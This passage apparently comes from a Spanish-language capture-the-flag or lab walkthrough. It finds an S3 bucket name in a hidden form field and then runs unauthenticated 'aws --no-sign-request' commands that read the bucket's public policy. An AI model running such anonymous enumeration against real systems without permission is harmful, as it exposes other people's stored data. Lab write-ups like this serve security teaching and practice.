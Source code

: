 ```html
<input hidden="huguelogistics-data" name="bucket">
```

Veremos esta parte del codigo en el formulario, por lo que vemos esta hablando de `bucket` y despues en el `hidden` vemos el siguiente nombre:

```
huguelogistics-data
```

Podemos creer que es un servidor en una `nube` y ese es el `endpoint` de dicho servidor, basicamente el nombre del `bucket`.

Vamos a probar a intentar enumerar las `politicas` del `bucket` con dicho nombre a ver si se pudiera enumerar de forma anonima.

## AWS

```shell
aws --no-sign-request --endpoint-url http://<IP>:9000 s3api get-bucket-policy --bucket huguelogistics-data
```

Info:

```
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowPublicReadPolicy\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":[\"*\"]},\"Action\":[\"s3:GetBucketPolicy\",\"s3:GetObject\",\"s3:ListBucket\"],\"Resource\":[\"arn:aws:s3:::huguelogistics-data\",\"arn:aws:s3:::huguelogistics-data/*\"]}]}"
}
```

Vemos que si nos deja, pero vamos a enumerarlo de forma mas clara y que se vea mejor.

```shell
aws --no-sign-request --endpoint-url http://<IP>:9000 s3api get-bucket-policy --bucket huguelogistics-data | jq -r '.Policy | fromjson | .Statement[] | {Effect, Principal, Action, Resource, Sid}'
```

Info:

```js
{
  "Effect": "Allow",
  "Principal": {
    "AWS": [
      "*"
    ]
  },
  "Action": [
    "s3:ListBucket",
    "s3:GetBucketPolicy",
    "s3:GetObject"
  ],
  "Resource": [
    "arn:aws:s3:::huguelogistics-data",
    "arn:aws:s3:::huguelogistics-data/*"
  ],
  "Sid": "AllowPublicReadPolicy"
}
```
